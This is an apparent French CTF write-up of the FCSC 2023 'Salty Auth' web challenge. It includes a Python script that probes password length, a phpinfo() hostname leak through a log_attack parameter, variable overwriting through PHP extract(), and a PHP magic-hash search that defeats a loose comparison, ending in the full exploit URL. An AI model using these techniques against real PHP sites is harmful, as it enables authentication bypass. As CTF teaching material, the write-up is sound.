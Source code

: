 ```yaml
---
title: FCSC - Salty Auth
date: 2023-05-06
summary: Type Juggling et éxécution de code avec Extract
author: Nu1t
description: Writeup
tags:
  - web
  - writeup
resources:
  - name: "featured-image"
    src: "featured-image.png"
---
```


## Enonce

![](./enonce.png)

Le lien nous redirige directement ici:
 
![](./chall.png)

On va devoir vérifier les 2 conditions afin de pouvoir afficher le flag.

## Conditions

{{< admonition type=tip title="Résolution" open=true >}}
Nous devons:
- Trouver la longueur du mot de passe
- Générer une collision entre **fnv164(password) == fn16v4(hostname+salt)**
{{< /admonition >}}

## Longueur du password

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

#$salt = bin2hex(random_bytes(12));  # 24 chars minimum pour secret

for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

Bien, toutefois le `salt` inconnu est bien embêtant ...
On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit:

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Leak du hostname via phpinfo() ?

Le principal souci pour vérifier la 2nde condition est que **nous ne connaissons ni hostname, ni salt**.
Nous allons trouver `hostname`, vous verrez l'utilité dans la partie suivante.

En me repenchant dessus j'ai trouvé une vulnérabilité: on peut appeler une certaine fonction `log_attack` lors de l'**exit()**:

```
log_attack=phpinfo
//le serveur éxécute: exit($log_attack)
```

![](./log_attack.png)

Et récupérer le hostname:

![](./hostname.png)

## Réinitialisation du salt via extract()

Une fonction saute au yeux dans ce code, à quoi sert-elle?

```php
$salt = bin2hex(random_bytes(12));

extract($GET);

$secret = gethostname().$salt;
```

Ici réside ce qui nous permettra d'outrepasser la 2nde condition.
On trouve rapidement quelques ressources sur extract:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/

`PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables.
`

Ici nous allons par la **register global** $SERVER.
En échouant la vérification nous allons pouvoir écraser le variable `salt`.

Grâce à **extract** on peut:

- préciser notre password
- **écraser le salt** afin de contrôler la loose comparison.

![](./solve.png)

{{< admonition type=tip title="Loose Comparison" open=true >}}
0e1234 == 0e4321 == 0
{{< /admonition >}}

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de trouver un password de 36 caractères pour forcer une [Loose comparison](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}
?>
```

![](./wrong.png)

Résumons:

```php
hostname = "9be4a60f645f";

password = "9be4a60f645fa74b424f8617e4d9fccfd023";
password2 = "9be4a60f645f"."b39ea06afe7bc4f917472748";

/*
https://salty-authentication.france-cybersecurity-challenge.fr/?password=<password>
&log_attack=extract($_SERVER);&salt="b39ea06afe7bc4f917472748"
*/

$salt = "????????????????????????";
//extract($GET)
$salt = "b39ea06afe7bc4f917472748";

//1ère condition
$secret = "9be4a60f645f"."b39ea06afe7bc4f917472748" //===$password2
//password != password2


//2nde condition
hash('fnv164',$password) === 0e58654062616816 == 0
hash('fnv164',$secret) === hash('fnv164',$password2) == 00e9125834043228 == 0
```

Tada!!

![](./flag.png)
